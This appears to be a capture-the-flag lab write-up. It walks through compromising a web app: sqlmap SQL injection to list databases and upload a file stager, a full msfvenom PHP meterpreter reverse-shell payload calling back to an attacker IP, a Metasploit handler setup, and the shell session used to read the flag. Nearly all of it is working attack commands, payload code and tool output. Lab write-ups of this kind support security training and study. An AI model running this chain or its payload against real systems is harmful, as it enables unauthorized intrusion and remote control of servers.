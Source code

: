 
## SQL Injection
https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/

- Copy the following response as save it as **r.txt**.
```
GET /api.php?documentid=1&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD HTTP/1.1
Host: <MACHINE IP>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=uafomq8a14mf4lkb7pktbrgt69
Connection: close
Upgrade-Insecure-Requests: 1
```

- Make sure you change the host IP address before saving it.

### Get Databases
- Launch the sqlmap with the following command.
```
sqlmap -r r.txt --dbs --batch
```

> available databases [5]:
> [*] information_schema
> [*] myfirstwebsite
> [*] mysql
> [*] performance_schema
> [*] sys


### Create a SQL upload page

```
$ sqlmap -r r.txt -D myfirstwebsite --os-shell
```

Select PHP (option 4), ‘no’ option and then brute-force (option 4).

Which web application language does the web server support?
> [1] ASP
> [2] ASPX
> [3] JSP
> [4] PHP (default)
> <span style="background:#ff4d4f">4</span>
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] <span style="background:#ff4d4f">n</span>
[14:53:33] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> <span style="background:#ff4d4f">4</span>

Use any additional custom directories [Enter for None]:
Enter **/var/www/html** as custom directory.

> [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.232.223:80/tmpuuuxb.php

### Visit the site
![[uploader.png]]



## Generate a reverse shell using msfvenom

```
$ msfvenom -p php/meterpreter/reverse_tcp lhost=<tunnel IP> lport=4445 -f raw
```

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes

---

```
<?php /**/ error_reporting(0); $ip = '10.8.40.30'; $port = 4445; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();`</font>
```

---

- Copy the above code and save it as shell.php. 

- After that, upload the shell.php using the sqlmap uploader.
	![[shell.png]]


### Metasploit
Open up msfconsole and set the following options:

```
msf> use multi/handler
msf exploit(handler) > set lport 4445
msf exploit(handler) > set lhost tun0
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > exploit
```

### Trigger the reverse shell
Visit  http://Machine_IP/shell.php


## Meterpreter

[*] Started reverse TCP handler on 10.8.40.30:4445                                  
[*] Sending stage (39927 bytes) to 10.10.136.85                                     
[*] Meterpreter session 1 opened (10.8.40.30:4445 -> 10.10.136.85:59092) at 2024-04-10 13:31:43 -0400                                                                   

meterpreter > shell

`cd ..`
`ls`
`cat flat.txt`

The flag is {FLAG:Webapp:48a5f4bfef44c8e9b34b926051ad35a6}

